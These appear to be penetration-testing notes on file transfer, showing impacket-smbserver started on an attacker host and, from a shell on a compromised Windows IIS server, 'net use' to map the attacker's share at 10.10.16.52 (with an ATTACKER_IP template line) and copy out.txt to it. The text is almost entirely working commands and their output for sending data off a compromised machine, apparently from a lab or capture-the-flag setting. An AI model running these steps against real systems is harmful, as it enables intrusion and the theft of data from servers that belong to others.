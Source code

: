 https://vk9-sec.com/smb-server-with-impaket-smbserver/

https://notes.offsec-journey.com/active-directory/windows-priv-esc/file-transfer

$ impacket-smbserver sharethis .
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

... waiting for incoming ...

$ impacket-smbserver sharethis . -username listening -password connections


net use \\ATTACKER_IP\share /USER:user s3cureP@ssword 

c:\inetpub\wwwroot\z>net use \\10.10.16.52\sharethis /user:listening connections                                                     
net use \\10.10.16.52\sharethis /user:listening connections                                                                          
The command completed successfully.

c:\inetpub\wwwroot\z>net view \\10.10.16.52                                                                                          
net view \\10.10.16.52                                                                                                               
Shared resources at \\10.10.16.52                                                                                                    
                                                                                                                                     
(null)                                                                                                                               
                                                                                                                                     
Share name  Type  Used as  Comment                                                                                                   
                                                                                                                                     
-------------------------------------------------------------------------------                                                      
SHARETHIS   Disk  (UNC)                                                                                                              
The command completed successfully.



c:\inetpub\wwwroot\z>copy out.txt \\10.10.16.52\sharethis                                                                            
copy out.txt \\10.10.16.52\sharethis                                                                                                 
        1 file(s) copied.                                                                                                            
                                                                                                                                     
c:\inetpub\wwwroot\z> 